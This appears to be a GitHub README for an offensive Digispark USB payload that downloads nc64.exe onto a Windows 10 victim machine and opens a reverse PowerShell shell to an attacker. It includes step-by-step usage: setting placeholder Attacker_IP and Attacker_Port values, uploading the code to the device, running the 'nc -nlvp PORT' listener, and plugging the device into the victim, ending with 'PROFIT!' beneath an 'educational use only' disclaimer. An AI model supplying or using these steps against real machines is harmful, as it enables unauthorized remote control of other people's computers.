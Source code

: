 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Digispark - Reverse shell, Windows 10

Downloads `nc64.exe` from:    
https://github.com/int0x33/nc.exe

Calls the attacker, using downloaded `nc64.exe` and opens up a powershell access from attacker.
## How to use:

*Designed, using Finnish keyboard in victim machine.*     
- Check [DigiKeyboardFi](https://github.com/therealhalonen/DigiKeyboardFi) for support it.    
- Download the .ino, or copy the code.    
- Open the file or paste the content to/in Arduino IDE.
- Define:
	-  `-ArgumentList \'Attacker_IP\', \'Attacker_Port\',`
- Upload to Digispark
- Establish the listener to attacker machine:
	- `nc -nlvp PORT`

- Plug in to victim machine
- **PROFIT!**